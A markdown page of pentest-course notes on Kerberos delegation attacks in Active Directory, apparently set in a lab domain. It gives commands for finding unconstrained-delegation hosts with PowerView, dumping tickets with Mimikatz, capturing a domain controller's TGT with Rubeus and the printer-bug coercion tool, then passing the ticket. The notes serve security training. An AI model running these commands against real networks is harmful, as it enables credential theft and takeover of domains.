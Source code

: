 
# Kerberos Delegation

## Unconstrained Delegation

Find domain computers with unconstrained delegation enabled

```powershell
# Using PowerView
Get-NetComputer -UnConstrained

# Using AD Module
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```

Once a server with Unconstrained Delegation enabled has been compromised, we can run the following Mimikatz command to check if any Domain Admin token is available.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

Then once a domain admin connects to a service on the server we can export the ticket and pass-the-ticket.

### Printer Bug
This is a feature of MS-RPRN which allows any domain user (Authenticated User) to force any machine (running the Spooler service) to connect to second a machine of the domain user's choice.

We can force the a domain controller to connect to an application server by abusing the Printer bug.

We can capture the TGT of the DC Machine Account by using Rubeus on `dcorp-appsrv`:

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

And after that run MS-RPRN.exe (https://github.com/leechristensen/SpoolSample) on the student VM:

```bash
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

The DA ticket can be exported as usual.

## Constrained Delegation

When enabled on a service account, Constrained Delegation allows access only to specified services on specified computers as a user.

A typical scenario where constrained delegation is used - a user authenticates to a web service without using Kerberos and the web service makes requests to a database server to fetch results based on the user's authorisation.
